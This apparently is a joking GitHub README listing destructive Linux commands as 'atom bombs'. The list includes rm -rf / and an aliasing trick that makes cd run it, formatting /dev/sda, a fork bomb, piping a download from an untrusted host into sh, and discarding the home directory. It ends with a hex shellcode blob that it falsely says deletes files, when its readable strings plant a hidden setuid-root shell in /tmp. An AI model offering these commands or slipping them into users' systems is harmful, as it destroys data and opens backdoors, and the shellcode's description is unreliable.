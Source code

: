# Hello-Linux
_Say Your Final Words_

## Some Atom Bombs for Linux

```
sudo rm -rf /
sudo umount /
```
This command will delete your entire files on mounted devices!

```
echo "alias cd='rm - rf /'" >> ~/.bash_aliases
```


```
mkfs.ext3 /dev/sda
```
This command will format your /dev/sda device and ofcourse will delete all files on it.

```
:(){:|:&};:
```
This command will run too many processes on your system and causes the computer hang up!

```
wget http://sumber_tak_terpercaya -O- | sh
```
This command will download a shell script from untrusted source and run it when the download finished

```
mv ~/* /dev/null
```
This will move home directory to a place that actually doesn't exist. In other words, it will delete your home directory


```
char esp[] __attribute__ ((section(".text"))) /* e.s.p
release */
= "\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68"
"\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99"
"\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7"
"\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56"
"\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31"
"\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69"
"\x6e\x2f\x73\x68\x00\x2d\x63\x00"
"cp -p /bin/sh /tmp/.beyond; chmod 4755
/tmp/.beyond;";
```
Hexadecimal code! Same as the first command, it will delete entire files on your mounted devices



### Happy-Hacking
